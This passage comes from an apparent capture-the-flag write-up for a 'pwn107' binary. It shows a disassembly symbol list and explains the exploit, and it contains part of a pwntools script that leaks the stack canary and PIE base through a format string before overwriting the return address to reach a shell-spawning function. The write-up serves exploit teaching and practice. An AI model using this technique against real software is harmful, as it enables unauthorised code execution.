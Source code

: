 ```shell
0x00000a90    4 101          sym.__libc_csu_init
0x0000094c    3 70           sym.get_streak
0x00000730    1 6            sym.imp.system
0x00000992    3 243          main
0x0000088a    3 136          sym.setup
0x00000760    1 6            sym.imp.setvbuf
0x00000740    1 6            sym.imp.printf
0x00000750    1 6            sym.imp.read
0x000006e8    3 23           sym._init
0x00000000    3 97   -> 123  loc.imp._ITM_deregisterTMCloneTable
```

![pwn-image]({{ '/' | absolute_url }}assets/images/pwn101-11.png)

We can combine the two vulnerabilities we found to exploit this binary and force it to spawn a shell.

### Exploit

Buffer overflow with format string to bypass canary and call the hidden function.

To leverage the buffer overflow, we use a format string to capture the canary and the address of the function which called `main()`, which is `entry0`.

Then we re-inject the canary in the next buffer overflow. The buffer overflow will also overwrite the return address from `main()` with the address of `get_streak()`, which will open a shell for us.

Since the binary is a PIE, the runtime address of `get_streak()` is calculated thanks to the leaked address of `entry0`.

```python
#!/usr/bin/env python3
#
# Exploit: format string + buffer overflow with canary enabled
# Inject a format string to capture the canary, reinject the canary in the
# following buffer overflow

from pwn import *
import re


context.update(arch="amd64", os="linux")

elf = ELF("./pwn107.pwn107")
# Getting hidden function offset. Note this elf is a PIE, so later we need
# to compute the runtime address of get_streak().
# We need + 1 because of stack alignment, we skip the push opcode at the
# beginning of get_streak()
hf_offset = elf.symbols["get_streak"] + 1
ef_offset = elf.entry
print(f"get_streak() offset is: {hex(hf_offset)}")
print(f"Entry point offset is: {hex(ef_offset)}")

process = process("./pwn107.pwn107")
# process = remote("xxx", 9007)

process.clean()

# Dump and collect the 11th and 13th word on the stack from buf, which are
# respectively the runtime address of the entry point and our canary
# note that the 11th word has the runtime address of the entry point because
# memory is not zeroed (TBC)
process.sendline(b"%11$p%13$p")
text = process.recvline_containsS("Your current streak:", timeout=3)
leaks_search = re.search(r" (0x[0-9a-f]+)(0x[0-9a-f]+)$", text, re.IGNORECASE)
```